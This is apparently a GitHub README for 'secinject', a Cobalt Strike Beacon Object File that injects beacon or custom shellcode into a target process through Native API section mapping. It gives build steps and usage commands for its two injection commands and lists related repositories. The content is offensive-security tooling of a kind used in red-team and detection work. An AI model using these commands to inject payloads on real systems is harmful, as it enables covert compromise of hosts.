 ## Section Mapping Process Injection (secinject): Cobalt Strike BOF

Beacon Object File (BOF) that leverages Native APIs to achieve process injection through memory section mapping. It implements two commands via an Agressor script: one to inject beacon shellcode for a selected listener into the desired process, and one to inject the user's desired shellcode - loaded from a bin file - into the desired process.  These are *sec-inject* and *sec-shinject* respectively.

- Currently, this is only implemented for x64 processes.

### How to Make
```
git clone https://github.com/apokryptein/secinject.git
cd secinject/src
make
```

### How to Use
#### Injecting Beacon
```
sec-inject PID LISTENER-NAME
```

#### Injecting Other Shellcode
```
sec-shinject PID /path/to/bin
```

### Code References
https://github.com/EspressoCake/Process_Protection_Level_BOF/tree/main/src
https://github.com/rsmudge/CVE-2020-0796-BOF/blob/master/src/libc.c
https://github.com/connormcgarr/cThreadHijack/
https://github.com/boku7/HOLLOW/
https://github.com/ajpc500/BOFs/




